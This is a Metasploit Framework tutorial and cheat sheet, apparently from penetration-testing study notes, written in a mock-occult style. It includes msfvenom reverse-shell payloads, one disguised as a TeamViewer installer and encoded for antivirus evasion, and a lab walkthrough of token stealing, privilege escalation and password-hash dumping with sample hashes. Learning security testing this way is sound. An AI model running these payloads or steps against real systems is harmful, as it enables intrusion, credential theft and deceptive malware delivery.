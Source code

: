 
# 🕷️ Metasploit Framework  
*Within this eldritch grimoire lies a vast arsenal of arcane tools for network divination, weaving attacks, and unraveling the deepest secrets of target systems. Harness its dark power to evade the watchful eyes, ascend to forbidden privileges, and command dominion after the breach.*

> *“To command the shadows is to master the unseen forces that bind the network.”*

<details>
<summary><h2>⚠️ Warnings to the Seeker of Shrouded Truth ⚠️</h2></summary>

**Do not get tunnel vision.**
> *Beware the madness that comes from gazing too long into a single artifact. The Framework is but one relic among many—do not let it become your crutch or your altar. Use it with intent, not dependence.*

**Please read all the technical documentation you can find for any of our tools.**
> *Before invoking forgotten runes, one must study the glyphs etched in the margins of the old tomes. Knowledge is the warding circle that keeps the daemon in the cage. Read. Absorb. Comprehend.*

**Many tools can prove to be unpredictable.**
> *Every incantation comes with a price. Some conjurations may awaken watchers, leaving ghostly footprints across the target's domain. Others may tear open rifts in your own sanctum. Always proceed with wards in place and a retreat mapped.*

</details>

---

<details>
<summary><h2>📥 Installation</h2></summary>

The official Metasploit Repository can be found [here](https://github.com/rapid7/metasploit-framework/).  

**Install**

```bash
sudo apt update && sudo apt install metasploit-framework
```

**Verify installation**

```bash
msfconsole -q
```

</details>

---

<details>
<summary><h2>📜 Introduction</h2></summary>

**Modules**

```bash
ls /usr/share/metasploit-framework/modules
```  

**Plugins**

```bash
ls /usr/share/metasploit-framework/plugins/
```  

**Scripts**

```bash
ls /usr/share/metasploit-framework/scripts/
```  

**Tools**

```bash
ls /usr/share/metasploit-framework/tools/
```  

</details>

---

<details>
<summary><h2>🧩 MSF Components</h2></summary>

<details>
<summary><h3>Modules</h3></summary>

Metasploit modules are pre-built scripts designed for specific tasks, each with corresponding functions that have been thoroughly developed and tested in real-world scenarios.

Within the msfconsole, users can choose from a comprehensive collection of available Metasploit modules. These modules are organized into folders, displayed in the following structure:

**Syntax**  

```bash
<No.> <type>/<os>/<service>/<name>
```  

**Example**  

```bash
794   exploit/windows/ftp/scriptftp_list
```  

<details>
<summary><h4>Explanation</h4></summary>

**Index No.**

The No. tag will be displayed to select the exploit we want afterward during our searches.

**Type**

The **Type** tag categorizes Metasploit modules at the highest level. By examining this field, we can determine the module’s intended function. Some types—such as exploit modules—are not directly executable but exist for structural and organizational purposes.

The table below consolidates all possible module types, their descriptions, and indicates whether they can be directly interacted with (e.g., via **use <no.>**).

| Type      | Description                                                                                   | Interactable |
|-----------|-----------------------------------------------------------------------------------------------|--------------|
| Auxiliary | Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality.| ✅           |
| Encoders  | Ensure that payloads are intact to their destination.                                         | ❌           |
| Exploits  | Exploit a vulnerability that allows for payload delivery.                                     | ✅           |
| NOPs      | (No Operation code) Keep payload sizes consistent across exploit attempts.                    | ❌           |
| Payloads  | Code that runs remotely and calls back to the attacker to establish a connection or shell.    | ❌           |
| Plugins   | Additional scripts integrated within assessments via `msfconsole`.                            | ❌           |
| Post      | Modules for information gathering, pivoting deeper into the network, and more.                | ✅           |

**OS**  

The OS tag indicates the target operating system and architecture for which the module was designed. Since different operating systems require distinct code execution methods, this tag ensures compatibility with the intended environment.

**Service**  

The Service tag identifies the vulnerable service running on the target machine. However, for certain modules (e.g., auxiliary or post), this tag may represent a broader action—such as _gather_—which refers to activities like credential collection.

**Name**

The Name tag describes the module's core function—the specific action it performs for its intended purpose.

</details>

<details>
<summary><h4>Search</h4></summary>

Search function

```bash
msf6 > help search
```  

Searching for a module

```bash
msf6 > search eternalblue
```  

Specific search

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```  

Specific payload search

```bash
msf6 > grep meterpreter show payloads
```

Even more specific search

```bash
msf6 > grep meterpreter grep reverse_tcp show payloads
```

</details>

<details>
<summary><h4>Select</h4></summary>

Select Module

```bash
msf6 > use 0
```  

Show options

```bash
msf6 > options
```  

</details>

<details>
<summary><h4>Set</h4></summary>

**Target Specification**

```bash
msf6 > set RHOSTS <TARGET IP>
```  

**Permanent Target Specification**

```bash
msf6 > setg RHOSTS <TARGET IP>
```  

**Target Port Specification**

```bash
msf6 > set RPORT <TARGET PORT>
```  

**Attacker IP specification**

```bash
msf6 > set LHOST <ATTACKER IP>
```  

**Permanent Attacker IP specification**

```bash
msf6 > setg LHOST <ATTACKER IP>
```  

**Attacker Port Specification**

```bash
msf6 > set LPORT <ATTACKER PORT>
```  

</details>

<details>
<summary><h4>Information</h4></summary>

Show info

```bash
msf6 > info
```  

</details>

<details>
<summary><h4>Exploit Execution</h4></summary>

Execute

```bash
msf6 > run
```

</details>

</details>


<details>
<summary><h3>Common Payloads</h3></summary>

The table below contains the most common payloads used for Windows machines and their respective descriptions.


| Payload                             | Description                                                                 |
|-------------------------------------|-----------------------------------------------------------------------------|
| generic/custom                      | Generic listener, multi-use                                                |
| generic/shell_bind_tcp              | Generic listener, multi-use, normal shell, TCP connection binding          |
| generic/shell_reverse_tcp           | Generic listener, multi-use, normal shell, reverse TCP connection          |
| windows/x64/exec                    | Executes an arbitrary command (Windows x64)                                |
| windows/x64/loadlibrary             | Loads an arbitrary x64 library path                                        |
| windows/x64/messagebox              | Spawns a dialog via MessageBox with customizable title, text & icon        |
| windows/x64/shell_reverse_tcp       | Normal shell, single payload, reverse TCP connection                       |
| windows/x64/shell/reverse_tcp       | Normal shell, stager + stage, reverse TCP connection                       |
| windows/x64/shell/bind_ipv6_tcp     | Normal shell, stager + stage, IPv6 Bind TCP stager                         |
| windows/x64/meterpreter/$           | Meterpreter payload + varieties above                                      |
| windows/x64/powershell/$            | Interactive PowerShell sessions + varieties above                          |
| windows/x64/vncinject/$             | VNC Server (Reflective Injection) + varieties above  

</details>

<details>
<summary><h3>Targets</h3></summary>

The **Target** field specifies particular operating system versions that the exploit module has been adapted to work with. These unique OS identifiers allow the module to customize its execution for specific system versions.

**Show Targets**  

```bash
msf6 > show targets
```

Regular output:
```bash
# Exploit targets:
# 
#    Id  Name
#    --  ----
#    0   Automatic
```

Exploit-specific output:
```bash
# Exploit targets:
# 
#    Id  Name
#    --  ----
#    0   Automatic
#    1   IE 7 on Windows XP SP3
#    2   IE 8 on Windows XP SP3
#    3   IE 7 on Windows Vista
#    4   IE 8 on Windows Vista
#    5   IE 8 on Windows 7
#    6   IE 9 on Windows 7
```

**Select Targets**  

```bash
msf6 > set target 6
```

</details>

<details>
<summary><h3>Payloads</h3></summary>

In Metasploit, a payload is a module that enables successful exploitation, typically by establishing a shell session for the attacker. 

**Show all payloads**

```bash
msf6 > show payloads
```

The framework provides three distinct payload types:


<details>
<summary><h4>1. Singles</h4></summary>

A _Single_ payload contains the exploit and the entire shellcode for the selected task. Inline payloads are by design more stable than their counterparts because they contain everything all-in-one. A Single payload can be as simple as adding a user to the target system or booting up a process.
</details>

<details>
<summary><h4>2. Stagers</h4></summary>

_Stager_ payloads work with Stage payloads to perform a specific task. A Stager is waiting on the attacker machine, ready to establish a connection to the victim host once the stage completes its run on the remote host. Stagers are typically used to set up a network connection between the attacker and victim and are designed to be small and reliable.  

</details>

<details>
<summary><h4>3. Stages</h4></summary>

_Stages_ are payload components that are downloaded by stager's modules.  

Payload stages automatically use middle stagers:

* A single recv() fails with large payloads
* The Stager receives the middle stager
* The middle Stager then performs a full download
* Also better for RWX

</details>

</details>

<details>
<summary><h3>Staged Payloads</h3></summary>

A staged payload modularizes the exploitation process by separating functionality into discrete components. Each stage performs specific tasks while chaining together to execute the complete attack.

Like all payloads, its objectives are twofold:

1. Establish shell access on the target system

2. Maintain minimal footprint to evade AV/IPS detection

**Connection Methodology:**

* Stage 0 (Reverse Connection):

    * The victim host initiates contact back to the attacker

    * Lower detection risk as the connection originates from within the target's security trust zone

    * Establishes initial communication channel

* Stage 1 (Shell Access):

    * After stable connection is established

    * Attacker delivers the larger, more functional payload component

    * Typically provides full shell access and control

<details>
<summary><h4>Meterpreter Payload</h4></summary>

The Meterpreter payload is a specific type of multi-faceted payload that:

- Uses **DLL injection** to establish a stable and covert connection with the victim host.
- Is designed to be **difficult to detect** using simple or conventional system checks.
- Maintains **persistence** across system reboots or changes (depending on configuration).
- Resides **entirely in memory**, leaving **no traces on the hard drive**.
- Evades many **traditional forensic detection techniques**.
- Allows **dynamic loading and unloading of scripts and plugins** during runtime.

</details>

</details>

<details>
<summary><h3>Encoders</h3></summary>

Encoders have assisted with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion. These architectures include:

- x64
- x86
- sparc
- ppc
- mips

Encoders were packed separately from the msfconsole script and were called **msfpayload** and **msfencode**. These two tools are located in _/usr/share/framework2/_.

**Generating Payload - Without Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -b "\x00" -f perl
```  

**Generating Payload - With Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -b "\x00" -f perl -e x86/shikata_ga_nai
```  

**Generate a payload with the exe format, called TeamViewerInstall.exe**  

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```  

**Generate a payload with the exe format, called TeamViewerInstall.exe running it through multiple iterations**  

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -e x86/shikata_ga_nai -f exe -i 10 -o ./TeamViewerInstall.exe
```  

As anticipated, most commercial antivirus solutions can detect these payloads during real-world engagements. Therefore, additional evasion techniques become necessary to bypass modern endpoint protection systems.

</details>

<details>
<summary><h3>Databases</h3></summary>

The Metasploit Framework utilizes databases within msfconsole to systematically store and manage penetration testing results. The system features native PostgreSQL integration, providing:

**Key Benefits:**

* Instant access to scan results and historical data

* Efficient data management through direct database interaction

* Seamless import/export functionality for integration with external tools

<details>
<summary><h4>Setting up the Database</h4></summary>

**PostgreSQL Status**

```bash
sudo service postgresql status
```  

**Start PostgreSQL**
```bash
sudo systemctl start postgresql
```  

**Initiate a Database**
```bash
sudo apt-get upgrade metasploit-framework
sudo msfdb init
```  

**MSF - Database Status**

```bash
sudo msfdb status
``` 

**MSF - Connect to the Initiated Database**  

```bash
sudo msfdb run
``` 

If your database is already configured but you're unable to modify the MSF user password, use the following command sequence:

**MSF - Reinitiate the Database**

```bash
msfdb reinit
cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
sudo service postgresql restart
msfconsole -q
``` 

**MSF - msf6 Database Status**

```bash
msf6 > db_status
``` 

**MSF - Database Options**  

```bash
msf6 > help database
``` 

**MSF - Using Nmap Inside MSFconsole**  

```bash
msf6 > db_nmap -sV -sS <TARGET IP>
``` 

**MSF - Review scan results**  

```bash
msf6 > hosts -h
msf6 > services -h
msf6 > creds -h
msf6 > loot -h
``` 

**MSF - Database Backup**  

```bash
msf6 > db_export -f xml backup.xml
``` 

</details>

</details>

<details>
<summary><h3>Plugins</h3></summary>

Metasploit plugins interact directly with the framework’s API, enabling deep integration and control. They serve three primary purposes:

* Automation – Streamline repetitive tasks

* Extensibility – Add custom commands to msfconsole

* Enhancement – Expand the framework’s built-in capabilities

**Listing plugins**  

```bash
ls /usr/share/metasploit-framework/plugins
``` 

**MSF - Load Plugin**  

```bash
msf6 > load nessus
msf6 > nessus_help
``` 

**Downloading plugins**  

```bash
git clone https://github.com/darkoperator/Metasploit-Plugins
ls Metasploit-Plugins
``` 

**MSF - Copying Plugin to MSF**  

```bash
sudo cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
``` 

**MSF - Load the new plugin**  

```bash
msf6 > load pentest
msf6 > help
``` 

</details>

</details>

---

<details>
<summary><h2>🤝 MFS Sessions</h2></summary>

<details>
<summary><h3>Sessions</h3></summary>

**Multi-Session Management in MSFconsole**

MSFconsole supports concurrent management of multiple modules and sessions. Key capabilities include:

1. Session Switching – Seamlessly transition between active sessions

2. Module Linking – Attach new modules to backgrounded sessions

3. Job Conversion – Convert sessions into persistent background jobs

**Important Notes:**

* Backgrounded sessions maintain active connections to target hosts

* Sessions may terminate unexpectedly due to:

    * Payload execution failures

    * Communication channel disruptions

**Backgrounding Sessions in MSFconsole**  

Active sessions can be backgrounded when they maintain communication with the target host. This allows operators to:

* Preserve established connections

* Switch between multiple engagements

* Deploy additional modules without session interruption

**Backgrounding Methods:**

1. Keyboard Shortcut: CTRL+Z (Universal)

2. Meterpreter Command: meterpreter > bg

**Process Flow:**

1. Initiate background request

2. Confirm action via prompt

3. Return to msf6

4. Immediately deploy new modules

**Listing Active Sessions**

```bash
msf6 exploit(windows/smb/psexec_psh) > sessions
```  

**Interacting with a Session**

```bash
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
``` 

</details>

<details>
<summary><h3>Jobs</h3></summary>

When an active exploit occupies a port needed for another module, improper termination (e.g., CTRL+C) leaves the port bound. Instead, follow this procedure:

**1. Check Active Jobs**

```bash
msf6 > jobs -l
``` 

**2. Terminate Conflicts**

```bash
msf6 > jobs -k <ID>
``` 

**Jobs Command Help Menu**  

```bash
msf6 > jobs -h
``` 

**Running an Exploit as a Background Job**  

```bash
msf6 > exploit -j
``` 

</details>

<details>
<summary><h3>Meterpreter</h3></summary>

The Meterpreter payload is an advanced, modular attack platform that employs sophisticated techniques to maintain stealth and persistence:

<details>
<summary><h4>Objectives</h4></summary>

* Provide a stable, extensible platform for internal host enumeration

* Facilitate rapid privilege escalation path discovery

* Enable advanced defensive evasion techniques

</details>

<details>
<summary><h4>Capabilites</h4></summary>

* Utilizes reflective DLL injection for stable, low-detectability implants

* Supports memory-only operation (no disk artifacts)

* Features configurable persistence mechanisms

</details>

<details>
<summary><h4>Operational Advantages</h4></summary>

1. Stealth Characteristics

    * No traditional process spawning

    * Avoids disk writes (in-memory execution only)

    * Encrypted communications channel

2. Persistence Options

    * Survives system reboots when properly configured

    * Maintains sessions through network changes

    * Supports migration between processes

3. Extended Functionality

    * Modular architecture for on-demand capability expansion

    * Built-in privilege escalation techniques

    * Comprehensive post-exploitation toolkit
</details>

<details>
<summary><h4>Using Meterpreter</h4></summary>

**MSF - Help**

```bash
meterpreter > help
``` 

**MSF - Meterpreter Migration**

```bash
meterpreter > getuid
# [-] 1055: Operation failed: Access is denied.

meterpreter > ps
# Process List
# ============
# 
#  PID   PPID  Name               Arch  Session  User                          Path
#  ---   ----  ----               ----  -------  ----                          ----
#  0     0     [System Process]                                                
#  4     0     System                                                  #         
#  216   1080  cidaemon.exe                                                    
#  272   4     smss.exe                                                     #    
#  292   1080  cidaemon.exe                                                    
# <...SNIP...>

# 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe


meterpreter > steal_token 1836
# Stolen token with username: NT AUTHORITY\NETWORK SERVICE

meterpreter > getuid

# Server username: NT AUTHORITY\NETWORK SERVICE

``` 

**MSF - Meterpreter Migration**
```bash
meterpreter > bg

# Background session 1? [y/N]  y

msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester

# Matching Modules
# ================
# 
#    #  Name                                      Disclosure Date  Rank    Check  Description
#    -  ----                                       ---------------  ----    -----  -----------
#    0  post/multi/recon/ local_exploit_suggester                   normal   No     Multi Recon Local Exploit Suggester

msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options

# Module options (post/multi/recon/local_exploit_suggester):
# 
#    Name             Current Setting  Required  Description
#    ----             ---------------  --------  -----------
#    SESSION                           yes       The session to run this module on
#    SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

# SESSION => 1

msf6 post(multi/recon/local_exploit_suggester) > run

# [*] 10.10.10.15 - Collecting local exploits for x86/windows...
# [*] 10.10.10.15 - 34 exploit checks are being tried...
# [+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
# [+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
# [+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
# [*] Post module execution completed 

msf6 post(multi/recon/local_exploit_suggester) > 
```

**MSF - Privilege Escalation**

```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_images

# [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/local/ms15_051_client_copy_image) > show options

# Module options (exploit/windows/local/ms15_051_client_copy_image):

#    Name     Current Setting  Required  Description
#    ----     ---------------  --------  -----------
#    SESSION                   yes       The session to run this module on.


# Payload options (windows/meterpreter/reverse_tcp):

#    Name      Current Setting  Required  Description
#    ----      ---------------  --------  -----------
#    EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
#    LHOST     46.101.239.181   yes       The listen address (an interface may be specified)
#    LPORT     4444             yes       The listen port


# Exploit target:

#    Id  Name
#    --  ----
#    0   Windows x86

msf6 exploit(windows/local/ms15_051_client_copy_image) > set SESSION 1

# SESSION => 1

msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST tun0

# LHOST => tun0

msf6 exploit(windows/local/ms15_051_client_copy_image) > run

# [*] Started reverse TCP handler on 10.10.14.26:4444 
# [*] Launching notepad to host the exploit...
# [+] Process 844 launched.
# [*] Reflectively injecting the exploit DLL into 844...
# [*] Injecting exploit into 844...
# [*] Exploit injected. Injecting payload into 844...
# [*] Payload injected. Executing exploit...
# [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
# [*] Sending stage (175174 bytes) to 10.10.10.15
# [*] Meterpreter session 2 opened (10.10.14.26:4444 -> 10.10.10.15:1031) at 2020-09-03 10:35:01 +0000

meterpreter > getuid

# Server username: NT AUTHORITY\SYSTEM

``` 

**MSF - Dumping Hashes**

```bash
meterpreter > hashdump

# Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
# ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
# Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
# IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
# Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::
# SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::

meterpreter > lsa_dump_sam

# [+] Running as SYSTEM
# [*] Dumping SAM
# Domain : GRANNY
# SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
# Local SID : S-1-5-21-1709780765-3897210020-3926566182

# SAMKey : 37ceb48682ea1b0197c7ab294ec405fe

# RID  : 000001f4 (500)
# User : Administrator
#   Hash LM  : c74761604a24f0dfd0a9ba2c30e462cf
#   Hash NTLM: d6908f022af0373e9e21b8a241c86dca

# RID  : 000001f5 (501)
# User : Guest

# RID  : 000003e9 (1001)
# User : SUPPORT_388945a0
#   Hash NTLM: 8ed3993efb4e6476e4f75caebeca93e6

# RID  : 000003eb (1003)
# User : IUSR_GRANPA
#   Hash LM  : a274b4532c9ca5cdf684351fab962e86
#   Hash NTLM: 6a981cb5e038b2d8b713743a50d89c88

# ...
```

</details>

</details>

</details>

---

<details>
<summary><h2>➕ Additional Features</h2></summary>

Text

<details>
<summary><h3>Writing & Importing Modules</h3></summary>

Text

</details>

<details>
<summary><h3>Introduction to MSFVenom</h3></summary>

Text

</details>

<details>
<summary><h3>Firewall and IDS/IPS evasion</h3></summary>

Text

</details>

</details>

---

📘 **Next step:** Continue with [PASSWORD ATTACKS](./07-password-attacks.md)
